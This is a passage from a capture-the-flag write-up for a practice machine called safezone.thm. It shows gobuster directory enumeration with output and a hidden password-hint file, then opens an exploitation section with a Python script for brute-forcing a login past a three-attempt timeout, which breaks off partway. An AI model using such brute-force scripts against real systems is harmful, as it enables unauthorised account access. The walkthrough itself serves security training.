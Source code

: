 I tried automating this using `caido automate` functionality but it failed, it seems like the `LFI` may only work as the admin user, let's try to fuzz again to check for any other directory we could be missing, in this case, i will change use `gobuster`:

```
gobuster dir -u http://safezone.thm/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 20 2>/dev/null
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://safezone.thm/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 277]
/~files               (Status: 301) [Size: 313] [--> http://safezone.thm/~files/]
```

We found the `/~files` directory, this must point to the same directory the admin was talking about on the note, let's go to `/~files/pass.txt` to check if its true:

![Pasted image 20250519131015.png](../../IMAGES/Pasted%20image%2020250519131015.png)

Let's proceed to exploitation.



# EXPLOITATION
---

We can use a python script to exploit that and get the password, the issue relies that every 3 attempts, we get a timeout which makes it hard to get the password, for that, we need to create a custom python script to help us get the password:

```python
import requests
from itertools import product

# Target URL
URL = 'http://safezone.thm/index.php'

# Headers copied from your curl for fidelity
HEADERS = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://safezone.thm',
    'Connection': 'keep-alive',
```